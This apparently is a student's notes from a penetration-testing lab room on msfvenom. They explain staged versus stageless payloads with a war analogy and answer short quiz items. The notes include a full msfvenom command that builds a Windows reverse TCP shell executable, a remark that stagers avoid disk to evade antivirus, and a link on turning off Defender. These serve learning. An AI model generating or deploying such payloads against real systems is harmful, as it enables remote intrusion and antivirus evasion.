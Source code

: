 see: [Turn off Defender antivirus protection in Windows Security](https://support.microsoft.com/en-us/windows/turn-off-defender-antivirus-protection-in-windows-security-99e6004f-c54c-8509-773c-a4d776b77960)


1. What command can be used to create a named pipe in Linux?

--> mkfifo




Task 9  msfvenom
-----------------

Msfvenom: the one-stop-shop for all things payload related.

It can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py).

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

<ins>Staged vs Stageless</ins>

1. **Staged**

**Staged payloads** are sent in two parts.

i) _stagers_
ii) _stages_

#### Explanation:
The first part is called the _stager_. This is a piece of code which is executed directly on the victim machine. It connects back to a waiting listener (attacker), but doesn't actually contain any reverse shell code by itself. And _via this established connection_, **stager** downloads the **real bulk payload (stage)**, executing it directly (passing execution to it) and preventing it from _`touching the disk`_ where it could be caught by _traditional anti-virus solutions_.

So, _stager_ is only used to establish connection b/w attacker and victim and load _stage_ and _stage_ does complex tasks like VNC, Meterpreter, etc...

see: 

[cobaltstrike-staged payload](https://blog.cobaltstrike.com/2013/06/28/staged-payloads-what-pen-testers-should-know/)

[cobaltstrike-stageless payload](https://blog.cobaltstrike.com/2016/06/15/what-is-a-stageless-payload-artifact/)


#### Analogy:

Scenario: War is about to happen...

Group1: Victim

Group2: Attacker

Suppose, there is a cliff b/w Group1 and Group2. Only way to attack **Group1 (Victim)** by **Group2 (Attacker)** is to _build/open a bridge_ upon on the cliff. _Stager_ comes to the rescue, he will build/open a bridge b/w **attacker** and **victim** _(Just like, Bibhishon on Ramayana)_, then with the help of the **bridge (established connection)** ***bulk  army (bulk payload/stages) are transferred***.
